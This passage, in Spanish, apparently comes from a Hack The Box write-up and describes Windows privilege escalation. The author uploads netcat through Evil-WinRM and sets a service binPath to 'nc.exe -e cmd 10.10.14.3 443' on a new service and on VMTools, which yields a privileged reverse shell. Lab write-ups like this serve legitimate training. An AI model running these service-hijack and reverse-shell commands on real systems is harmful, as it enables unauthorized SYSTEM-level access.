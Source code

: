 ## Etapa de Escalada de Privilegios

<p align="justify"> 
  El usuario tiene la capacidad de iniciar y detener servicios, lo que implica que puedo reconfigurar un servicio y reiniciarlo. Por esa razón, se debe subir el binario NC.EXE al servidor. Lo que hace que Evil-WinRM sea especialmente útil es su capacidad para cargar archivos. Utilizando el comando de carga, pude transferir el binario de netcat al servidor.
</p>

```go
locate nc.exe
cp $(locate nc.exe) .
```

<p align="center">
  <img src="https://github.com/Sh4dowCost/HTB-Write-Ups/assets/90486643/779fbace-97ba-4d8f-905b-c3da38f4b970">
</p>

```go
PS C:> upload $PATH-NC.EXE
```

<p align="center">
  <img src="https://github.com/Sh4dowCost/HTB-Write-Ups/assets/90486643/9c024858-bb81-423f-8e9c-a44138ab0beb">
</p>

<p align="justify"> 
  Una vez que el binario se encontraba en el servidor, aproveché la funcionalidad de servicios integrados de Evil-WinRM para consultar qué servicios estaban en escucha. En la imagen siguiente se muestran los servicios junto con su nivel de privilegios. Aunque identifiqué varias opciones de servicios que podrían ser objeto de abuso, decidí focalizarme en el servicio VGAuthService. Tratemos de crear un servicio.
</p>

```go
PS C:> sc.exe create reverse binPath="C:\Windows\Temp\Info\nc.exe -e cmd 10.10.14.3 443"
```

<p align="justify"> 
Posteriormente, intenté modificar la configuración de un servicio existente para que en lugar de usar su propio binario, empleara el netcat que había uno que fue modificado el BinPath del servicio.
</p>

<p align="center">
  <img src="https://github.com/Sh4dowCost/HTB-Write-Ups/assets/90486643/98925c39-1078-4eb8-b214-28181ce7d71d">
</p>

```go
PS C:> sc.exe config VMTools binPath="C:\Windows\Temp\Info\nc.exe -e cmd 10.10.14.3 443"
```

<p align="center">
  <img src="https://github.com/Sh4dowCost/HTB-Write-Ups/assets/90486643/3122efff-ceb1-4a21-bcef-20353506b46f">
</p>
